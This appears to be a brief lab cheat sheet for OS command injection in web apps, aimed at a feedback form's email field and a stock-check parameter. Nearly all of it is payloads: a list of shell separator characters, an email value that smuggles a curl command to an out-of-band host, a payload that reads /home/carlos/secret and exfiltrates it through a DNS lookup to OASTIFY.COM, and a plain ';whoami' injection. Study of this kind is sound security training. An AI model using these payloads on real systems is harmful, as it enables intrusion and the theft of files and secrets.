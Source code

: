 ____

The place to find OS Injection is in **Submit Feedback** page, usually in email input, but, just in case, scan the other inputs too

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```


```bash
email=carlos@exam.net||curl+`whoami`.OASTIFY.COM||
```

```bash
||$(curl $(cat /home/carlos/secret).OASTIFY.COM)||
```

https://www.youtube.com/watch?v=o7oVWXw4t5E

# OS command injection, simple case

```bash
productId=3&storeId=1;whoami
```

